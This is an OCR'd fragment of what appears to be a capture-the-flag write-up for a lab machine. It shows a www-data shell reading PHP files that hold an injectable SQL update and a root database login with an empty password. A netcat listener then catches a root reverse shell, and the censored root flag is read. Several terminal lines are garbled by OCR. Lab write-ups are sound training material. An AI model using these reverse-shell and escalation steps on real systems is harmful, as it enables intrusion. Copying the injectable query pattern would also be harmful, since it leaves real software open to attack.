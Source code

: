 $query = mysqli_query($conn, "update stats set status='$update' where id=1");  
if($query)  
{  
echo 'Update Success!';  
}  
}  
?>  
g.phpata@player:/tmp$ cat /var/www/html/launcher/dee8dc8a47256c64630d803a4c40786  
<?php  
$servername = "localhost";  
$username = "root";  
$password = "";  
$dbname = "integrity";

// Create connection  
$conn = new mysqli($servername, $username, $password, $dbname);  
// Check connection  
if ($conn->connect_error) {  
die("Connection failed: " . $conn->connect_error);  
}  
?>  
www-data@player:/tmp$ clear  
www-w-w-data@player:/tmp$ vimr/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php-data@player:/tmp$ vi /var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.pw-data@player:/tmp$ vim /var/www/html/launcher/dee8dc8a47256c64630d803a4c4  
0786g.

root@kali:~# nc -lnvp 1338  
listening on [any] 1338 ...  
connect to [10.10.15.95] from (UNKNOWN) [10.10.10.145] 34326  
bash: cannot set terminal process group (3781): Inappropriate ioctl for device  
bash: no job control in this shell  
root@player:~# cat /root/root.txt  
cat /root/root.txt  
7df#########ZENSIERT#########49c  
root@player:~#